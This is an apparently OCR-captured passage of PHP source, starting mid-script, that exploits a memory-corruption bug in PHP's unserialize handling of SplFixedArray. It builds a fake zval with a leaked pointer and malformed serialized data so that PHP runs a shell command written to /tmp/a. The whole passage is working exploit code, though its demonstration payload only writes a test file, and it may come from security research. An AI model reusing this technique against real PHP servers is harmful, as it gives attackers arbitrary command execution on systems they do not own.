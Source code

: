  ```PHP
$y[3] = $system[3];
$y[4] = $system[4];
$y[5] = $system[5];
$y[6] = $system[6];
$y[7] = $system[7];

file_put_contents("/tmp/a", "bash -c 'echo 123 > /tmp/hello'");

$inner_1 = 'x:3;i:0;i:0;i:1;s:8:"AAAAAAAA";i:2;?:2;';
$fakezval_1 = "sh /*/a;";
$fakezval_1 .= ptr2str($bss-8);
$fakezval_1 .= "\x01\x00\x00\x00";
$fakezval_1 .= "\x05";
$fakezval_1 .= "\x00";
$fakezval_1 .= "\x00\x00";
$inner_2 = 's:'.strlen($fakezval_1).':"'.$fakezval_1.'"';
$mid_1 = 'x:6;i:0;s:1:"0";i:1;s:1:"1";i:2;C:13:"SplFixedArray":'.strlen($inner_1).':{'.$inner_1.'}i:3;'.$inner_2.';i:4;'.$inner_2.';i:5;'.$inner_2.';';
$a_1 = 'C:13:"SplFixedArray":'.strlen($mid_1).':{'.$mid_1.'}';
$data_8 = unserialize($a_1);
$data_8[2][2] = 1;

echo "Done!\n";
?>
 ```

